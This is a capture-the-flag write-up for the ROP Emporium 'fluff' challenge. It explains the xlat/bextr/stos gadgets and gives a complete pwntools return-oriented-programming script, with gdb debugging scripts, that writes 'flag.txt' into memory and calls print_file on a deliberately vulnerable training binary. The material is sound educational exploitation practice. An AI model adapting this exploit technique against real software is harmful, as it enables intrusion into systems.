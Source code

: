 # Challenge Theory
This is a basic rop challenge, but there are only a few useful gadgets.
## Gadgets
The useful gadgets are:
```c
0x400628 xlat BYTE PTR ds:[rbx]; ret    
0x40062a pop rdx; pop rcx; add rcx, 0x3ef2; bextr  rbx,rcx,rdx; ret    
0x400639 stos BYTE PTR es:[rdi],al; ret   
```
# Solution Theory
Like most of the previous challenges, the attacker just needs to call the "print_file" function with an argument to the flag.
However, the attacker no longer has easy access to a simple write primitive, so they have to get the flag string from memory.
# Solution
## Getting the Flag String From Memory
There are two methods to get the "flag.txt" string from memory.
The first method is manually looking through the binary with a reverse engineering tool.
The second method is just doing automatically with pwntools.
### pwntools Snippet to get the Flag String
```python
'''
taken from video: https://www.youtube.com/watch?v=UM6d8DPB8wo&list=PLHUKi1UlEgOKAVRdiMlpX6hgayiY6dTwu&index=7
find and build the flag string from within the binary itself
'''
elf = pwn.ELF(binary, checksec=False)
flag_string = b"flag.txt"
char_mem_addrs = []
for x in flag_string:
    # this also adds the elf offset
    addr = hex(pwn.read(binary).find(x) + elf.address)
    char_mem_addrs.append(addr)
    pwn.info(f"found: \"{chr(x)}\" at address: {addr}")
```
## Encoding the Flag String into Memory 
Encoding the string into the data section of the binary requires all of the gadgets, and also requieres mixing in some other ones as well.
### Gadgets
The "bextr" string of gadgets will populate the required registers, and then it will extract rcx into rbx, using rdx as an argument for start, and length.
```c
mov rbx, rcx ; with length of [7:0] starting point and [15:8] length
```
The "xlat" gadget will do this:
```c
mov al, [rbx + al]
```
Finally, the stos gadget will do this
```c
mov [rdi], al
add rdi, 1
```
### Gadget Chain in Python
Stringing these together can create a write primitive
```python
# encode the flag into memory
flag_vals = b"flag.txt"
offset = 0
encode_flag = b""
current_rax = 0xb
for i in range(0, 8):
    if i != 0:
        current_rax = flag_vals[i-1]
    encode_flag += gadget_bextr
    encode_flag += pwn.p64(0x4000)
    encode_flag += pwn.p64(int(char_mem_addrs[i], 16) - current_rax - 0x3ef2)
    encode_flag += gadget_xlat
    encode_flag += gadget_pop_rdi
    encode_flag += pwn.p64(location_write_value + i) 
    encode_flag += gadget_store_byte  
```
The only thing of not here is the "current_rax" subtraction.
This exists because you have to offset the value current in the rax register, because the "xlat" gadget will use that as part of it calculation(as stated earlier).
After this encoding is done, all the attacker needs to do is call the "print_file" function.
## Final Rop Chain Script
```python
#!/usr/bin/python3
import pwn
import sys
binary = "fluff"
pwn.context.binary = binary
pwn.context.encoding = "latin"

location_write_value = 0x601028
location_write = pwn.p64(0x601028)
location_f = pwn.p64(0x000000cd)
gadget_store_byte = pwn.p64(0x400639)
gadget_pop_rdi = pwn.p64(0x4006a3)
gadget_ret = pwn.p64(0x400295)
gadget_xlat = pwn.p64(0x400628)
gadget_bextr = pwn.p64(0x40062a)
gadget_mov_eax_0_pop_rbp = pwn.p64(0x400610)
gadget_print_file = pwn.p64(0x400510)

'''
taken from video: https://www.youtube.com/watch?v=UM6d8DPB8wo&list=PLHUKi1UlEgOKAVRdiMlpX6hgayiY6dTwu&index=7
find and build the flag string from within the binary itself
'''
elf = pwn.ELF(binary, checksec=False)
flag_string = b"flag.txt"
char_mem_addrs = []
for x in flag_string:
    # this actually adds the elf offset which is usually 0x400000 (aslr can change this)
    addr = hex(pwn.read(binary).find(x) + elf.address)
    char_mem_addrs.append(addr)
    pwn.info(f"found: \"{chr(x)}\" at address: {addr}")

'''
this encoding flag part was partially taken from this blog:
    https://mregraoncyber.com/rop-emporium-writeup-fluff/?utm_source=rss&utm_medium=rss&utm_campaign=rop-emporium-writeup-fluff
'''
# encode the flag into memory
flag_vals = b"flag.txt"
offset = 0
encode_flag = b""
current_rax = 0xb
for i in range(0, 8):
    if i != 0:
        current_rax = flag_vals[i-1]
    encode_flag += gadget_bextr
    encode_flag += pwn.p64(0x4000)
    encode_flag += pwn.p64(int(char_mem_addrs[i], 16) - current_rax - 0x3ef2)
    encode_flag += gadget_xlat
    encode_flag += gadget_pop_rdi
    encode_flag += pwn.p64(location_write_value + i) 
    encode_flag += gadget_store_byte  

padding = 40
payload = pwn.flat(
    b"A"*padding,
    encode_flag,
    gadget_pop_rdi,
    location_write,
    gadget_print_file
)

if ("input" in sys.argv):
    with open("input", "wb") as io:
        io.write(payload)

if ("log" in sys.argv):
    pwn.context.log_level = "debug"

with pwn.process(binary) as io:
    pwn.info(io.readrepeat(1))
    io.send(payload)

    if ("interactive" in sys.argv):
        io.interactive()

    if ("output" in sys.argv):
        pwn.info(io.readrepeat(1))
```
# Other Info
To debug the encoding of the string into memory, a couple of gdb scripts were used.
The first gdb script was a simple set of breakpoints
## Breakpoint Script
```bash
b *0x4006a3
b *0x400610
b *0x400295
b *0x40062a
b *0x400628
b *0x400639
b *0x400510
r < input
```
This script is self explanatory, just step through the gadgets.
## Looped Script To Inspect the Changing of the Data Section
```bash
b *0x40063a
r < input
commands
    printf "current flag\n"
    x/s 0x601028
    continue
end
continue
```
This examines the area in memory the flag is placed with every iteration of it being encoded.
This is because the flag is encoded character by character, due to the limitation of the gadgets provided.